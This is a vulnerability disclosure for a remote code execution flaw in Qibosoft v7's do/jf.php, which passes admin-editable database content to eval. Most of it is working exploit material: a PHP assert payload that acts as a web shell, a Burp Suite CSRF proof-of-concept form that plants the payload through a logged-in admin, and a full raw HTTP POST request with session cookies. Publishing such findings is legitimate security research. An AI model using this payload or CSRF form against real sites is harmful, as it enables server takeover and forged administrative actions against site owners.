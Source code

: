 # Qibosoft v7 remote code execution

### Detail

In the `do/jf.php` file, take the data from the database into the `eval` function for execution.

![](./img/1.png)

The database data can be added or changed in the `Plugin Management -> Point Introduction Management` in the background management. Because the variable `$rs2` exists in double quotes, the built-in `addslashes` filter is invalid, resulting in code execution.

```
payload: ";@assert(stripslashes($_GET['_']));//ertest
```

![](./img/2.png)

![](./img/3.png)

Because the point introduction management exists in the background management, it can also be used with `CSRF`

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://[::]/qibo/admin/index.php?lfj=jfadmin&action=addjf" method="POST">
      <input type="hidden" name="title" value="test" />
      <input type="hidden" name="fid" value="2" />
      <input type="hidden" name="list" value="999" />
      <input type="hidden" name="content" value="&quot;&#59;&#64;assert&#40;stripslashes&#40;&#36;&#95;GET&#91;&apos;&#95;&apos;&#93;&#41;&#41;&#59;&#47;&#47;ertest" />
      <input type="hidden" name="submit" value="æ&#143;&#144;&#32;äº&#164;" />
      <input type="hidden" name="id" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

### PoC

Add `payload` to the database

```
POST /qibo/admin/index.php?lfj=jfadmin&action=addjf HTTP/1.1
Host: [::]
Content-Length: 139
Cache-Control: max-age=0
Origin: http://[::]
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://[::]/qibo/admin/index.php?lfj=jfadmin&job=addjf
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: XDEBUG_SESSION=PHPSTORM; think_template=default; Admin=1%09ClNTVQFSB10BU1FSUgMEAVJWCwBQUQZUV1cBBANeAFc%3D94606de1fd; adminID=AzlYXF4IDG0AAFEHA1JXCgBRAlJTBwBVVQIJCwwAUgQGUQEIAgcBVw%3D%3D638eb521ba; USR=7ulybxrd%0930%091571119076%09http%3A%2F%2F%5B%3A%3A%5D%2Fqibo%2Fadmin%2Findex.php%3Flfj%3Djfadmin%26job%3Daddjf
Connection: close

title=test&fid=2&list=999&content=%22%3B%40assert%28stripslashes%28%24_GET%5B%27_%27%5D%29%29%3B%2F%2Fertest&submit=%E6%8F%90+%E4%BA%A4&id=
```

Visit `do/jf.php` to successfully execute the code

![](./img/4.png)